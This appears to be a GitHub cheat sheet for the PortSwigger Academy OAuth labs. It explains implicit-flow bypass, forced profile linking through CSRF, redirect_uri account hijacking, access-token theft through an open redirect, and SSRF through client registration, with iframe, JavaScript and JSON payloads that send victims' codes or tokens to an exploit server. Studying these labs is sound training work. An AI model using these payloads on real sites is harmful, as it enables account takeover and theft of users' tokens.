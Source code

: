 # OAuth Authentication

## Summary

* [Recon for OAuth Authentication](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

* Additional Note: There is a PDF attached in this folder that has a walk-through of the complete labs. The document does not need to be downloaded, it can be viewed inline in GitHub.

<br><br>

## Recon

* Links:

    * https://portswigger.net/web-security/oauth#identifying-oauth-authentication

<br><br>

## Cheat Sheet

<br><br>

### __Authentication Bypass via OAuth Implicit Flow.__

* After the client application has received the access token for a user from the OAuth service, it will retrieve information about the user from the OAuth service "user endpoint".  

* The client application will then submit the user's email and access token to their own endpoint for authentication. (Here the access token is acting like a "traditional" password.)  

* However, by changing the email parameter to another user’s email, we can log into the application as any arbitrary user, essentially bypassing authentication.

![auth1](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/OAuth%20Authentication/Images/Picture1.png)

<br><br>

### __CSRF Attack - Missing "state" Parameter. (Forced OAuth profile linking)__

* An application is allowing users to attach their social media account to their normal application account.  

* When the client application submits the "Authorization Request" to the OAuth Service, the "state" parameter is not included with the request.  This behavior can be used to perform a CSRF like attack.  

* Go through a normal OAuth workflow and capture the "Authorization Code Grant" request using Burp Proxy (then drop the request, the request will look like this - /oauth-linking?code=xxxxx).

* We will use this request as the CSRF exploit to attack other users and to attach our social media account to their normal application account.  Once the payload is delivered to the victim user, log into the application again using the "Social Media Login" function and we gain access to the admin account.

* See lab/document for more details.

* Example CSRF Payload: (Use in the Exploit Server to host it.)

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=UNUSED-CODE"></iframe>
```

<br><br>

### __CSRF Attack - Missing Validation "redirect_uri" Parameter. (OAuth account hijacking via redirect_uri)__

* The "redirect_uri" parameter is not being validated properly in the "Authorization Request".  Create an CSRF exploit that contains this "Authorization Request" along with a "redirect_uri" value to a domain you control.  

* When the OAuth server sends back the authorization code, it will append it to the domain specified in the "redirect_uri" and we can check in our Exploit server logs to obtain another user's auth code, which can now be submitted to the original "callback" URL of the application and log into their account.

* Example CSRF Payload: (Use in the Exploit Server to host it.)

```html
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

* Now use the stolen oauth code within the client application's callback URL:

```html
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```

![auth2](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/OAuth%20Authentication/Images/Picture2.png)

<br><br>

### __CSRF + Open Redirection + Directory Traversal - Bypassing Flawed "redirect_uri" Parameter Validation. (Stealing OAuth access tokens via an open redirect)__

* The OAuth server is not properly validating the "redirect_uri" parameter in the client application's "Authorization Request".  

* The domain can't be manipulated, however, by using a directory traversal vulnerability we can point the "redirect_uri" value to another location within the client's application.  This other location in the client's application also contains an open redirection vulnerability which can be used to direct the request to an arbitrary domain like the Exploit Server.  

* Combining these 2 vulnerabilities along with a CSRF exploit, we can capture an access token (Implicit grant flow is used here.) that belongs to another user.  And use that token to access the victim user's information.

* Final payload to be hosted in the Exploit Server:
   * This will force the victim user to first visit the malicious URL then a request will be submitted to the Exploit Server with the access token appended to the request. (The access token is sent in fragment -> #xxxx)
 
   * The "redirect_uri" parameters contains the traversal and open redirection vulnerability location.
   
   * Deliver the payload to the victim user and check the Exploit Server logs for the access token. 

```javascript
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

* See lab document for more details.


<br><br>

### __SSRF via OpenID Dynamic Client Registration.__

* An attacker can dynamically register a client application with the OAuth server.  The registration endpoint does not require any authentication.  

* There is a request in the application that looks like this, which initiates a request to the endpoint that was specified within the "logo_uri" parameter upon client registration.  The contents are returned in the response as well.:

   * /client/{client-id}/logo

* We can register a new client with the OAuth server and specify Burp Collaborator endpoint within the "logo_uri" parameter to identify if an in-band SSRF attack is possible.

* Since the contents of the request are returned in the response, this is considered an in-band SSRF vulnerability and can be used to retrieve sensitive internal system information.

* The following payload was injected in the body of the OAuth's service registration endpoint:

```json
{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

* See lab document/section for more details. - https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration


<br><br>

### __Stealing OAuth access tokens via a proxy page__

* Link:  https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet or attached document.
